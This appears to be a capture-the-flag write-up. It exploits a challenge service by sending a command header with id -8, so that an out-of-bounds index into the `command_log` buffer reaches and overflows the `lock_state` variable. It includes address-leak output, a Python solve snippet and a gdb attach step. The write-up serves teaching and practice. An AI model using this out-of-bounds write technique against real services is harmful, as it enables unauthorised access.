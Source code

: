 Clearly, we can use the `command_log` buffer to increment the `lock_state` variable. Since `header-id` is not validated, we can use it to reference the address of the `lock_state` variable. To better understand this part, refer to (Pointer arithmetic and array indexing)[https://www.learncpp.com/cpp-tutorial/pointer-arithmetic-and-array-indexing/] which explains pointers and offsets in memory. To perform this operation, we will need to know the address of the `command_log` and `lock_state` variables.

To obtain the memory addresses of both the `lock_state` and `command_log` variables, we will uncomment the lines identified earlier and recompile the service. We will then re-run the `challenge` service, which will display their location:

```c
	fprintf(stderr, "Address of lock_state:       %p\n", &lock_state);
	fprintf(stderr, "Address of command_log: %p\n", &command_log);
	// fprintf(stderr, "Port: %d\n", std::atoi(std::getenv("CHAL_PORT")));
```

```sh
$ TIMEOUT=3600 ./challenge 
Address of lock_state:       0x55dd5458c130
Address of command_log: 0x55dd5458c138
Trying to bind to socket.
Bound to socket.
```

From the output above, we can observe that the address of the `lock_state` variable is 8 bytes before the start of the `command_log` buffer. Since the buffer contains `signed char` values, we need to access `command_log[-8]` and increment the value 255 times (1+255=256) for it to overflow to `0`, which is the value for the `UNLOCKED` state.

Let's go step-by-step to demonstrate the concept. We will first show that we can modify the `lock_state` variable by accessing it via the value of the `header->id` variable. This can be done by sending a command header with an id of `-8`

```python
def do_challenge(remote):
    flag = bytearray()
    flag += struct.pack('HHi', 1, 1, -8)
    remote.sendline(flag)
    line = remote.recv().decode('utf-8')
    print("LOG: %r", line.rstrip())
```


```sh
$python solve.py 
[+] Opening connection to 127.0.0.1 on port 54321: Done
LOG: %r Command header acknowledge: version:1 type:1 id:-8
Command Success: LOCKED
[*] Closed connection to 127.0.0.1 port 54321
```

It seems that the service accepted our ID with a value of `-8`. We will use `gdb` yo confirm that the `lock_state` variable changed. To do so, we will attach `gdb` to the `challenge` process:

```sh
ps -e | grep challenge
1350693 pts/4    00:00:00 challenge
$gdb -p 1350693
```
